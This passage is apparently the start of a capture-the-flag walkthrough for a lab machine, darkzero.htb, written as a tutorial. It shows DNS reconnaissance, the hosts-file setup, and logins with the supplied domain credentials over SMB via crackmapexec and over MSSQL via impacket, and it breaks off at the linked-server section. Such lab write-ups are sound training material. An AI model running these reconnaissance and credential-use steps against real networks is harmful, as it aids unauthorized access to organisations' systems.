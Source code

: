 
### DNS Reconnaissance - Discovering the Hidden Network

```bash
dig @10.10.11.89 ANY darkzero.htb
```

🎓 **What just happened?**

The DNS query reveals something fascinating:

- `10.10.11.89` - External interface (what we can reach)  
- `172.16.20.1` - Internal interface (hidden network)

This is called a **multihomed host** — a server with network cards in multiple networks. Think of it like a door between two rooms. We're in the front room, but there's a whole other room behind it!

---

### Preparing the Environment

Add the target to your hosts file for easier access:

```bash
echo "10.10.11.89 DC01.darkzero.htb darkzero.htb" | sudo tee -a /etc/hosts
```

🔑 **Credentials Provided:** `john.w:RFulUtONCOL!`

Let's verify these work:

```bash
crackmapexec smb 10.10.11.89 -u 'john.w' -p 'RFulUtONCOL!' -d darkzero.htb
```

✅ Authentication successful! But only default shares are accessible. We need to dig deeper.

---

## 🗄️ Phase 2: MSSQL Exploitation - The Linked Server Trick

### Connecting to MSSQL

```bash
impacket-mssqlclient 'darkzero.htb/john.w:RFulUtONCOL!@10.10.11.89' -windows-auth
```

🎓 **SQL Server Fundamentals:**

MSSQL authentication has two modes:

- **Windows Authentication:** Uses domain credentials (what we're using)  
- **SQL Authentication:** Uses database-specific usernames/passwords

We're leveraging Windows auth because `john.w` is a domain account.

---

### The Linked Server Discovery
